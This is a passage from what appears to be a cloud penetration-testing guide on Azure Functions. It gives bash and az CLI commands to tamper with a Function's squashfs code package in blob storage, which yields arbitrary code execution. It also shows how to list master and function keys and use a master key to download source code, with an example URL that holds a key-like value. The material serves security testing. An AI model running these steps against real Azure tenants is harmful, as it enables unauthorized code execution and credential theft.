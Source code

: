 ```bash

# List contents of the filesystem
unsquashfs -l "/tmp/scm-latest-<app-name>.zip"

# Get all the contents
mkdir /tmp/fs
unsquashfs -d /tmp/fs /tmp/scm-latest-<app-name>.zip
```

It's also possible to find the **master and functions keys** stored in the storage account in the container **`azure-webjobs-secrets`** inside the folder **`<app-name>`** in the JSON files you can find inside.

{% hint style="danger" %}
With enough permission to connect to the blob container that **contains the code in a zip extension file** (which actually is a **`squashfs`**) it's possible to execute arbitrary code in the Function and escalate privileges.
{% endhint %}

```bash
# Modify code inside the script in /tmp/fs adding your code

# Generate new filesystem file
mksquashfs /tmp/fs /tmp/scm-latest-<app-name>.zip  -b 131072 -noappend

# Upload it to the blob storage
az storage blob upload \
  --account-name <storage-account> \
  --container-name scm-releases \
  --name scm-latest-<app-name>.zip \
  --file /tmp/scm-latest-<app-name>.zip \
  --overwrite
```

### Microsoft.Web/sites/host/listkeys/action

This permission allows to list the function, master and system keys, but not the host one, of the specified function with:

{% code overflow="wrap" %}
```bash
az functionapp keys list --resource-group <res_group> --name <func-name>
```
{% endcode %}

With the master key it's also possible to to get the source code in a URL like:

{% code overflow="wrap" %}
```bash
# Get "script_href" from
az rest --method GET \
  --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/functions?api-version=2024-04-01"

# Access 
curl "<script-href>?code=<master-key>"
## Python example:
curl "https://newfuncttest123.azurewebsites.net/admin/vfs/home/site/wwwroot/function_app.py?code=RByfLxj0P-4Y7308dhay6rtuonL36Ohft9GRdzS77xWBAzFu75Ol5g==" -v
```
{% endcode %}
